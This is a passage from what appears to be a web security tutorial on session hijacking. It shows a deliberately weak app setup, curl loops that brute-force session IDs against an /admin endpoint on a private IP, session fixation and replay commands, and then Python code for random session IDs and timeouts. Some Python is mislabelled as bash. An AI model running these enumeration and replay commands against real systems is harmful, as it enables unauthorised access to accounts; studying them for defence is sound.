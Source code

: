 ```bash
        return None

# Use secure JWT library
pip install PyJWT[crypto]
```

### **2. Session Hijacking**

#### **Attack Vector: Predictable Session IDs**
```bash
# Vulnerable session implementation
docker run -d --name vulnerable-app \
  -e SESSION_SECRET=123456 \
  myapp:latest

# Attacker predicts session ID
for i in {1..1000}; do
  curl -H "Cookie: session=$i" \
    http://192.168.1.100:8080/admin
done
```

#### **Exploitation Steps**
```bash
# 1. Session enumeration
for i in {1..1000}; do
  curl -H "Cookie: session=$i" \
    http://192.168.1.100:8080/admin
done

# 2. Session fixation
curl -c cookies.txt http://192.168.1.100:8080/login
curl -b cookies.txt http://192.168.1.100:8080/admin

# 3. Session replay
curl -H "Cookie: session=stolen_session_id" \
  http://192.168.1.100:8080/admin
```

#### **Defense & Patching**
```bash
# Secure session management
import secrets
import hashlib

# Generate random session ID
session_id = secrets.token_urlsafe(32)

# Hash session ID
hashed_session = hashlib.sha256(session_id.encode()).hexdigest()

# Session timeout
import time
session_timeout = 3600  # 1 hour
if time.time() - session_created > session_timeout:
    invalidate_session()
```
